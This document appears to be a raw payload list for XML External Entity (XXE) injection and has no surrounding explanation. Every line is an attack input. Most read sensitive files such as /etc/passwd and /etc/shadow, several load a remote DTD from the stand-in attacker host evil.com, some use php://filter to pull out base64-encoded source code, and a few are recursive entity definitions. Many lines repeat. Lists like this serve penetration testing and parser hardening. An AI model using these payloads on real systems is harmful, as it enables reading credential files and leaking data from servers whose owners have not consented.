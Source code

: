 <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><root>&xxe;</root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/shadow">]><root>&xxe;</root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/hosts">]><root>&xxe;</root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/hostname">]><root>&xxe;</root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/resolv.conf">]><root>&xxe;</root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/issue">]><root>&xxe;</root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "http://evil.com/xxe_payload.dtd">]><root>&xxe;</root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=index.php">]><root>&xxe;</root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % xxe SYSTEM "file:///etc/passwd"> %xxe;]><root></root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % xxe SYSTEM "file:///etc/shadow"> %xxe;]><root></root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % xxe SYSTEM "file:///etc/hosts"> %xxe;]><root></root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % xxe SYSTEM "file:///etc/hostname"> %xxe;]><root></root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % xxe SYSTEM "file:///etc/resolv.conf"> %xxe;]><root></root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % xxe SYSTEM "file:///etc/issue"> %xxe;]><root></root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % xxe SYSTEM "http://evil.com/xxe_payload.dtd"> %xxe;]><root></root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % xxe SYSTEM "php://filter/read=convert.base64-encode/resource=index.php"> %xxe;]><root></root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY xxe "&xxe;" >]><root></root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY xxe "<entity>&xxe;</entity>" >]><root></root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY xxe "<!ENTITY &xxe; 'xxe_payload'>" >]><root></root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><root><name>&xxe;</name></root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/shadow">]><root><name>&xxe;</name></root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/hosts">]><root><name>&xxe;</name></root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/hostname">]><root><name>&xxe;</name></root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/resolv.conf">]><root><name>&xxe;</name></root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/issue">]><root><name>&xxe;</name></root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "http://evil.com/xxe_payload.dtd">]><root><name>&xxe;</name></root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=index.php">]><root><name>&xxe;</name></root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root PUBLIC "-//OASIS//DTD DITA Topic//EN" "http://evil.com/xxe_payload.dtd"><root>&xxe;</root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root PUBLIC "-//OASIS//DTD DITA Topic//EN" "http://evil.com/xxe_payload.dtd"><root><name>test</name></root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root PUBLIC "-//OASIS//DTD DITA Topic//EN" "http://evil.com/xxe_payload.dtd"><root></root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root PUBLIC "-//OASIS//DTD DITA Topic//EN" "http://evil.com/xxe_payload.dtd"><root><name>&xxe;</name></root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><root>&xxe;</root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/shadow">]><root>&xxe;</root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/hosts">]><root>&xxe;</root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/hostname">]><root>&xxe;</root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/resolv.conf">]><root>&xxe;</root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/issue">]><root>&xxe;</root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "http://evil.com/xxe_payload.dtd">]><root>&xxe;</root>
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=index.php">]><root>&xxe;</root>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/shadow">]><foo>&xxe;</foo>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/hosts">]><foo>&xxe;</foo>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/hostname">]><foo>&xxe;</foo>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/resolv.conf">]><foo>&xxe;</foo>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/issue">]><foo>&xxe;</foo>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://evil.com/xxe_payload.dtd">]><foo>&xxe;</foo>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=index.php">]><foo>&xxe;</foo>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "file:///etc/passwd"> %xxe;]><foo></foo>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "file:///etc/shadow"> %xxe;]><foo></foo>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "file:///etc/hosts"> %xxe;]><foo></foo>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "file:///etc/hostname"> %xxe;]><foo></foo>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "file:///etc/resolv.conf"> %xxe;]><foo></foo>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "file:///etc/issue"> %xxe;]><foo></foo>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://evil.com/xxe_payload.dtd"> %xxe;]><foo></foo>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "php://filter/read=convert.base64-encode/resource=index.php"> %xxe;]><foo></foo>